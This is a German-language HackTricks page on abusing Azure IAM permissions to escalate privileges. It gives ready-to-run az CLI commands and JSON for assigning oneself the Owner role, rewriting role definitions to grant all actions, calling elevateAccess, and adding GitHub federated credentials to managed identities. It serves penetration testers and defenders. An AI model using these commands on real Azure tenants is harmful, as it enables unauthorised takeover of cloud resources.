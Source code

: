 # Az - Azure IAM Privesc (Authorization)

{{#include ../../../banners/hacktricks-training.md}}

## Azure IAM

Für weitere Informationen siehe:

{{#ref}}
../az-services/az-azuread.md
{{#endref}}

### Microsoft.Authorization/roleAssignments/write

Diese Berechtigung ermöglicht es, Rollen an Principals über einen bestimmten Geltungsbereich zuzuweisen, wodurch ein Angreifer seine Berechtigungen erhöhen kann, indem er sich selbst eine privilegiertere Rolle zuweist:
```bash
# Example
az role assignment create --role Owner --assignee "24efe8cf-c59e-45c2-a5c7-c7e552a07170" --scope "/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.KeyVault/vaults/testing-1231234"
```
### Microsoft.Authorization/roleDefinitions/Write

Diese Berechtigung ermöglicht es, die Berechtigungen, die durch eine Rolle gewährt werden, zu ändern, wodurch ein Angreifer die Privilegien erhöhen kann, indem er einer zugewiesenen Rolle weitere Berechtigungen gewährt.

Erstellen Sie die Datei `role.json` mit dem folgenden **Inhalt**:
```json
{
"Name": "<name of the role>",
"IsCustom": true,
"Description": "Custom role with elevated privileges",
"Actions": ["*"],
"NotActions": [],
"DataActions": ["*"],
"NotDataActions": [],
"AssignableScopes": ["/subscriptions/<subscription-id>"]
}
```
Dann aktualisieren Sie die Rollenberechtigungen mit der vorherigen Definition, indem Sie Folgendes aufrufen:
```bash
az role definition update --role-definition role.json
```
### Microsoft.Authorization/elevateAccess/action

Diese Berechtigung ermöglicht es, Privilegien zu erhöhen und Berechtigungen für jede Entität zu Azure-Ressourcen zuzuweisen. Sie ist dafür gedacht, Entra ID Global Administratoren zugewiesen zu werden, damit sie auch Berechtigungen für Azure-Ressourcen verwalten können.

> [!TIP]
> Ich denke, der Benutzer muss Global Administrator in Entra ID sein, damit der Erhöhungsaufruf funktioniert.
```bash
# Call elevate
az rest --method POST --uri "https://management.azure.com/providers/Microsoft.Authorization/elevateAccess?api-version=2016-07-01"

# Grant a user the Owner role
az role assignment create --assignee "<obeject-id>" --role "Owner" --scope "/"
```
### Microsoft.ManagedIdentity/userAssignedIdentities/federatedIdentityCredentials/write

Diese Berechtigung ermöglicht das Hinzufügen von föderierten Anmeldeinformationen zu verwalteten Identitäten. Z.B. Zugriff auf Github Actions in einem Repo für eine verwaltete Identität gewähren. Dann ermöglicht es den **Zugriff auf jede benutzerdefinierte verwaltete Identität**.

Beispielbefehl, um einer verwalteten Identität Zugriff auf ein Repo in Github zu gewähren:
```bash
# Generic example:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.ManagedIdentity/userAssignedIdentities/<managed-identity-name>/federatedIdentityCredentials/<name-new-federated-creds>?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:<org-name>/<repo-name>:ref:refs/heads/<branch-name>","audiences":["api://AzureADTokenExchange"]}}'

# Example with specific data:
az rest --method PUT \
--uri "https://management.azure.com//subscriptions/92913047-10a6-2376-82a4-6f04b2d03798/resourceGroups/Resource_Group_1/providers/Microsoft.ManagedIdentity/userAssignedIdentities/funcGithub-id-913c/federatedIdentityCredentials/CustomGH2?api-version=2023-01-31" \
--headers "Content-Type=application/json" \
--body '{"properties":{"issuer":"https://token.actions.githubusercontent.com","subject":"repo:carlospolop/azure_func4:ref:refs/heads/main","audiences":["api://AzureADTokenExchange"]}}'
```
{{#include ../../../banners/hacktricks-training.md}}
